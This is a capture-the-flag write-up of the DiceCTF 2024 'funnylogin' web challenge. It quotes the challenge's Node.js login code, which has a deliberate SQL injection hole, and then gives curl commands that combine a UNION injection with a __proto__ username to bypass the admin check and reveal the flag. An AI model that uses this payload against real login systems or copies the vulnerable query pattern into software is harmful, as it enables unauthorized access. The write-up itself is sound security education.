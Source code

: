 
<!DOCTYPE html>
<html>

<body>
    <h1>dicectf 2024- web/funnylogin Challenge Writeup(first save it)</h1>

    <h2>Challenge Description</h2>
    <p> NOTE: no bruteforcing is required for this challenge! please do not bruteforce the challenge.

funnylogin:https://funnylogin.mc.ax/
 https://static.dicega.ng/uploads/6beb05ec61c3436cf1e0d566f56e786e42bd8e2fe788404169cae34c368929e4/funnylogin.tar.gz
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
 

# Solution
URL and source are passed.
When you access it, it looks like just a login form.
![site.png](site/site.png)
Looking at the source, the main parts of app.js are as follows.
<pre>
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex" ) }));
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u. pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
     const { user, pass } = req.body;

     const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
     try {
         const id = db.prepare(query).get()?.id;
         if (!id) {
             return res.redirect("/?message=Incorrect username or password");
         }

         if (users[id] && isAdmin[user]) {
             return res.redirect("/?flag=" + encodeURIComponent(FLAG));
         }
         return res.redirect("/?message=This system is currently only available to admins...");
     }
     catch {
         return res.redirect("/?message=Nice try...");
     }
});
</pre>
There is SQLi which is trivial.
However, it seems that you can only become admin if <pre>users[id] && isAdmin[user]<pre> is true.
First, consider <pre>isAdmin[user]</pre>.
Only one of the users created in large quantities was randomly added as the `isAdmin` key, and we do not know who is the admin.
Here, you will notice that if you specify <pre>__proto__</pre> or <pre>toString</pre> to <pre>user</pre>, it will not become <pre>undefined</pre>.
For the remaining <pre>users[id]</pre>, just return an appropriate <pre>id</pre> using SQLi UNION.
Do as follows.
<pre>
$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=user&pass=pass"
Found. Redirecting to /?message=Incorrect%20username%20or%20password
$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=__proto__&pass=' UNION SELECT id FROM users WHERE id = 1; -- satoki"
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
<pre>
flag found


    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag"> dice{i_l0ve_java5cript!}
</p>

    <h2>Conclusion</h2>
    <p>this is a easy sql injection and web exploitaion challenge with work on javascript files</p>
</body>
</html>
